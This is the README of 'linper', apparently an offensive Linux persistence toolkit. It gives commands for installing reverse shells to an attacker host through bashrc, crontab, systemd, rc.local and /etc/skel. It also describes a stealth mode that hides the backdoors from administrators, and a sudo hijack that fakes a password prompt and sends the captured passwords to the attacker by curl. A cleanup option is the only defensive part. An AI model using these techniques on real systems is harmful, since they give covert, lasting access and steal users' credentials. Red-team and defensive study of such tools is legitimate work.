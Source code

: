 # linper

linux persistence toolkit - enumerate, install, or remove persistence mechanisms

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

#### caveats

- This functionality is designed to remove reverse shells installed using this tool however since this tool uses common/well-known techniques, it may also be used to remove unwanted reverse shells if you know the C2 domain/IP
- The cleaning mechanism does not remove any bash aliases from the `-s,--stealth-mode` options (though that is being planned, see TODO.md)

## methodology

### installing

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

##### caveats

1. If you run `-s, --stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bashrc because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)

2. If you use the clean function after installing in stealth mode, it will break the `crontab` function in the bashrc, currently working on a way to completely remove the function so it does not print any errors to screen

### cleaning

1. To remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. To remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. To remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. To remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc: every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab: every minute (this can be changed by altering the $CRON variable at the top of the script) (see TODO.md)
- systemctl: at system startup
- /etc/rc.local: at system startup
- /etc/skel/.bashrc: after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 80 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses curl to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary 
